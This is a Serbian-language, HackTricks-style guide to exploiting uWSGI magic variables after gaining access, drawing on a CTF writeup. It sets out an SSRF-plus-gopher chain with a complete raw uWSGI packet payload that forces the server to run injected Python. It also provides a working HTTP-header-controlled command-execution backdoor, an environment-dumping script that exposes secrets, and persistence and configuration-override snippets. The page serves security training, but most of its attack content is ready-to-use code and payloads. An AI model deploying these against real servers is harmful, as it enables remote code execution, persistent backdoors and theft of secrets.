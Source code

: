 # WSGI trikovi za post-eksploataciju

{{#include ../../banners/hacktricks-training.md}}

## Pregled WSGI

Web Server Gateway Interface (WSGI) je specifikacija koja opisuje kako web server komunicira sa web aplikacijama i kako se web aplikacije mogu povezivati da obrade jedan zahtev. uWSGI je jedan od najpopularnijih WSGI servera, često korišćen za serviranje Python web aplikacija.

## Eksploatacija uWSGI magičnih varijabli

uWSGI pruža specijalne "magic variables" koje se mogu koristiti za dinamičku konfiguraciju ponašanja servera. Ove varijable se mogu postaviti preko HTTP headera i mogu dovesti do ozbiljnih sigurnosnih ranjivosti ako nisu pravilno validirane.

### Ključne iskorišćive varijable

#### `UWSGI_FILE` - Izvršavanje proizvoljnog fajla
```
uwsgi_param UWSGI_FILE /path/to/python/file.py;
```
Ova promenljiva omogućava učitavanje i izvršavanje proizvoljnih Python fajlova kao WSGI aplikacija. Ako napadač može da kontroliše ovaj parametar, može postići Remote Code Execution (RCE).

#### `UWSGI_SCRIPT` - Učitavanje skripti
```
uwsgi_param UWSGI_SCRIPT module.path:callable;
uwsgi_param SCRIPT_NAME /endpoint;
```
Učitava navedeni skript kao novu aplikaciju. U kombinaciji sa file upload-om ili write capabilities, ovo može dovesti do RCE.

#### `UWSGI_MODULE` and `UWSGI_CALLABLE` - Dinamičko učitavanje modula
```
uwsgi_param UWSGI_MODULE malicious.module;
uwsgi_param UWSGI_CALLABLE evil_function;
uwsgi_param SCRIPT_NAME /backdoor;
```
Ovi parametri omogućavaju učitavanje proizvoljnih Python modula i pozivanje specifičnih funkcija unutar njih.

#### `UWSGI_SETENV` - Manipulacija varijabli okruženja
```
uwsgi_param UWSGI_SETENV DJANGO_SETTINGS_MODULE=malicious.settings;
```
Može se koristiti za izmenu environment variables, što može potencijalno uticati na ponašanje aplikacije ili dovesti do učitavanja zlonamerne konfiguracije.

#### `UWSGI_PYHOME` - Python Environment Manipulation
```
uwsgi_param UWSGI_PYHOME /path/to/malicious/venv;
```
Menja Python virtuelno okruženje, potencijalno učitavajući maliciozne pakete ili druge Python interpretere.

#### `UWSGI_CHDIR` - Directory Traversal
```
uwsgi_param UWSGI_CHDIR /etc/;
```
Menja radni direktorijum pre obrade zahteva, što se može iskoristiti za path traversal attacks.

## SSRF + Gopher to

### The Attack Vector

Kada je uWSGI dostupan preko SSRF (Server-Side Request Forgery), napadači mogu komunicirati sa internim uWSGI socket-om kako bi iskoristili magijske promenljive. Ovo je naročito opasno kada:

1. Aplikacija ima SSRF ranjivosti
2. uWSGI radi na internom portu/socket-u
3. Aplikacija ne validira magijske promenljive ispravno

uWSGI je dostupan zbog SSRF jer konfiguracioni fajl `uwsgi.ini` sadrži: `socket = 127.0.0.1:5000`, što ga čini dostupnim iz web aplikacije putem SSRF.

### Exploitation Example

#### Korak 1: Kreirajte zlonamerni payload
Prvo, injektujte Python kod u fajl kojem server može pristupiti (upis fajla unutar servera, ekstenzija fajla nije bitna):
```python
# Payload injected into a JSON profile file
import os
os.system("/readflag > /app/profiles/result.json")
```
#### Korak 2: Sastavite uWSGI protokol zahtev
Koristite Gopher protokol da pošaljete raw uWSGI pakete:
```
gopher://127.0.0.1:5000/_%00%D2%00%00%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0E%00REQUEST_METHOD%03%00GET%09%00PATH_INFO%01%00/%0B%00REQUEST_URI%01%00/%0C%00QUERY_STRING%00%00%0B%00SERVER_NAME%00%00%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%0A%00UWSGI_FILE%1D%00/app/profiles/malicious.json%0B%00SCRIPT_NAME%10%00/malicious.json
```
Ovaj payload:
- Povezuje se na uWSGI na portu 5000
- Postavlja `UWSGI_FILE` da pokazuje na zlonamerni fajl
- Prisiljava uWSGI da učita i izvrši Python kod

### Struktura uWSGI protokola

uWSGI protokol koristi binarni format gde:
- Varijable se kodiraju kao stringovi prefiksirani dužinom
- Svaka varijabla sadrži: `[name_length][name][value_length][value]`
- Paket počinje zaglavljem koje sadrži ukupnu veličinu

## Post-Exploitation Techniques

### 1. Persistent Backdoors

#### File-based Backdoor
```python
# backdoor.py
import subprocess
import base64

def application(environ, start_response):
cmd = environ.get('HTTP_X_CMD', '')
if cmd:
result = subprocess.run(base64.b64decode(cmd), shell=True, capture_output=True, text=True)
response = f"STDOUT: {result.stdout}\nSTDERR: {result.stderr}"
else:
response = "Backdoor active"

start_response('200 OK', [('Content-Type', 'text/plain')])
return [response.encode()]
```
Zatim upotrebite `UWSGI_FILE` da učitate ovaj backdoor:
```
uwsgi_param UWSGI_FILE /tmp/backdoor.py;
uwsgi_param SCRIPT_NAME /admin;
```
#### Perzistencija zasnovana na okruženju
```
uwsgi_param UWSGI_SETENV PYTHONPATH=/tmp/malicious:/usr/lib/python3.8/site-packages;
```
### 2. Otkrivanje informacija

#### Ispis promenljivih okruženja
```python
# env_dump.py
import os
import json

def application(environ, start_response):
env_data = {
'os_environ': dict(os.environ),
'wsgi_environ': dict(environ)
}

start_response('200 OK', [('Content-Type', 'application/json')])
return [json.dumps(env_data, indent=2).encode()]
```
#### Pristup datotečnom sistemu
Koristite `UWSGI_CHDIR` u kombinaciji sa serviranjem fajlova da pristupite osetljivim fajlovima:
```
uwsgi_param UWSGI_CHDIR /etc/;
uwsgi_param UWSGI_FILE /app/file_server.py;
```
### 3. Privilege Escalation

#### Socket Manipulation
Ako uWSGI radi sa povišenim privilegijama, napadači mogu manipulisati dozvolama socket-a:
```
uwsgi_param UWSGI_CHDIR /tmp;
uwsgi_param UWSGI_SETENV UWSGI_SOCKET_OWNER=www-data;
```
#### Prepisivanje konfiguracije
```python
# malicious_config.py
import os

# Override uWSGI configuration
os.environ['UWSGI_MASTER'] = '1'
os.environ['UWSGI_PROCESSES'] = '1'
os.environ['UWSGI_CHEAPER'] = '1'
```
## Reference

- [Dokumentacija uWSGI Magic Variables](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)
- [IOI SaveData CTF Writeup](https://bugculture.io/writeups/web/ioi-savedata)
- [Najbolje sigurnosne prakse za uWSGI](https://uwsgi-docs.readthedocs.io/en/latest/Security.html)

{{#include ../../banners/hacktricks-training.md}}
